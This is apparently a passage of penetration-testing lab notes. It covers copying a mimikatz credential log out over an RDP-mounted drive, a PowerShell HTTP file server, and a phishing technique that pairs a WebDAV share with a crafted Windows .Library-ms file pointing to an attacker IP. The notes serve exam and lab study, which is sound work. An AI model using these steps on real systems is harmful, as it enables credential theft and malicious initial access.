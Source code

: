 ```bash
offsec /p:lab /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/
```
**On windows:**
```bash
copy mimikatz.log \\tsclient\test\mimikatz.log
```
### Fire Sharing(powershell)
```powershell
$listener = [System.Net.HttpListener]::new()  
$listener.Prefixes.Add("http://*:80/")  
$listener.Start()  
while ($listener.IsListening) {  
    $context = $listener.GetContext()  
    $response = $context.Response  
    $filePath = $context.Request.Url.LocalPath.Substring(1)  
    if (Test-Path $filePath) {  
        $fileBytes = [System.IO.File]::ReadAllBytes($filePath)  
        $response.ContentLength64 = $fileBytes.Length  
        $response.OutputStream.Write($fileBytes, 0, $fileBytes.Length)  
    } else {  
        $response.StatusCode = 404  
    }  
    $response.OutputStream.Close()  
}
```

### Abusing Windows Library File
Windows library files: **.Library-ms** file extension and can be executed by **double-clicking**
Set up a WebDAV share:
```bash
pip3 install wsgidav
```
Create the **/home/kali/webdav** directory to use as the WebDAV share that will contain our **.lnk** file
```bash
mkdir /home/kali/webdav

wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```
Then we can create Windows library file in windows environment.
VScode -> New Text File -> save as **config.Library-ms** -> we can change the appearance of file.
Content: (Change the url)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.240</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
When open, it connects to webdav share.